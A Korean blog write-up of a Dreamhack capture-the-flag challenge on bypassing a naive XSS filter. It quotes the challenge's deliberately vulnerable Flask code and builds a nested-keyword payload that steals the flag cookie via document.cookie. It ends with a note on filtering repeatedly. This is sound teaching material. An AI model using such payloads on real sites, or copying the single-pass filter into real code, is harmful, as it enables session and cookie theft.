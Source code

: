 ```yaml
---
title: (4) Dreamhack XSS Filtering Bypass 문제 풀이
date: 2024-01-09 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
먼저 들어오면 이런 모습입니다.
![](http://kyuyeop.github.io/assets/img/post/4/1.png)
![](http://kyuyeop.github.io/assets/img/post/4/2.png)
vuln 페이지에는 뭐가 없네요. 개발자 도구로 코드를 뜯어보니 param을 그대로 반영한 듯 싶습니다. xss 취약점이 있을 수 있겠네요.
![](http://kyuyeop.github.io/assets/img/post/4/3.png)
memo는 들어갈 때 마다 hello를 띄워주네요.
![](http://kyuyeop.github.io/assets/img/post/4/4.png)
flag는 이렇게 되어 있습니다. POST 요청을 날려주네요.
  
그럼 이제 코드를 확인해 봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript:"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text

@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```
여기서 주의깊게 봐야할 부분은
```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript:"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```
이 3개의 함수와 vuln, flag 페이지 입니다. FLAG는 오직 /flag에 POST요청을 날렸을때 cookie로만 사용되고 있습니다. 저걸 반드시 이용해야 한다는 뜻이죠. 이어서 check_xss를 거쳐 vuln 페이지가 read_url 함수를 통해 읽어집니다.  
  
그래서 쿠키가 어디까지 가는가 하니, read_url 함수가 webdriver를 통해 vuln 페이지를 접속하는데, 이때 쿠키가 같이 넘어가는 걸 알 수 있습니다.  
그리고 vuln 페이지는 xss_filter 함수를 통해 아주 간단한 문자열 검사를 수행하고 있네요.  
  
즉, flag에서 input에 무언가를 입력하면 flag가 담긴 쿠키와 입력값을 가지고 서버가 vuln 페이지에 한번 들러줍니다.  
  
그럼 서버측에 있는 쿠키를 빼내야 flag를 얻을 수 있다는 것이겠죠? 일단 쿠키를 빼내는 기본적인 방법은
```javascript
document.cookie
```
라는 자바스크립트를 사요하는 방법입니다. 로컬이라면 그냥 alert를 이용해 띄워주면 되겠지만, 이 서버는 쿠키를 서버측에서 가지고 있다가 끝나버립니다.  
  
그래서 memo 페이지를 이용할 겁니다. memo 페이지는 memo 파라미터로 넘어온 모든걸 기록해주는 역할을 하고 있습니다. 그래서 서버에서 쿠키를 빼내 memo 페이지에 저장하는 자바스크립트를 실행할 수만 있다면 해결됩니다. 이를 자바스크립트로 나타내면 다음과 같습니다.
```javascript
location.href="/memo?memo="+document.cookie;
```
서버(read_url 과정)에서 이 코드를 수행하면 memo 파라미터로 쿠키를 넘기고, memo 페이지로 이동하게 할 수 있습니다.  
  
그러면 vuln 페이지로 이렇게만 보내주면 될까요?
```html
<script>location.href="/memo?memo="+document.cookie;</script>
```
vuln 페이지에는 xss_filter 함수로 필터링을 한다고 했었죠? 그래서 이걸 그대로 보낸다면
```html
<>locatin.href="/memo?memo="+document.cookie;</>
```
이렇게 되버릴 겁니다.  
  
따라서 필터링을 우회해야 합니다.  
  
코드를 보면 단순히 입력을 소문자로 바꿔서 script, on, javascript: 가 있다면 지워버리고(''로 치환하고) 결과를 반환합니다. 이 작업은 최초 한번만 작동하기에 치환되는 문자열 일부에 그 문자열을 한번 더 쓴다면 의도한 대로 결과를 얻을 수 있습니다.  
즉, 원하는 페이로드를 보내려면
```html
<sscriptcript>locatioonn.href="/memo?memo="+document.cookie;</sscriptcript>
```
이런식으로 글자 사이에 한번더 치환 문자열을 넣어서 치환을 거쳐 원하는 문자열을 완성시키도록 해야 합니다.  

이렇게 완성된 페이로드를 xss 페이지 input에 넣고
![](http://kyuyeop.github.io/assets/img/post/4/5.png)
제출하게 된다면...
![](http://kyuyeop.github.io/assets/img/post/4/6.png)
good이 떴습니다!
공격에 성공했다는 뜻이죠. 이제 memo 페이지를 확인해 보면...
![](http://kyuyeop.github.io/assets/img/post/4/7.png)
이렇게 flag가 출력되었습니다.  
  
이번엔 \<script\>를 이용했지만 대표적인 xss 페이로드는 스크립트 태그를 사용하는 방법 이외에, img, iframe 을 이용하는 방법도 있습니다.
  
이런종류의 xss를 막으려면 한번만 필터링 할게 아니라, 반복문을 통해 치환 전과 치환 후가 같아질때 까지 필터링을 해줘야 합니다.
{% endraw %}